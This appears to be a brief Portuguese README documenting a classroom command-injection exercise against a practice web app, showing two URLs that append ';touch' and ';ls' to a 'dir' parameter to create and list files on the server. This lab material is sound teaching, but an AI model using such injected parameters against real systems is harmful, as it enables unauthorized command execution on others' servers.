


# Command Injection

Essa prática foi feita na sala de aula, consistia na injeção de comando para a criação de um arquivo com meu nome.

- Criando o arquivo no servidor:
```
http://commandinjection.herokuapp.com/?dir=folder;touch esdrasemanuel.txt
```
<div align="center"></div>

- Listando:
```
http://commandinjection.herokuapp.com/?dir=folder;ls
```
<div align="center"></div>
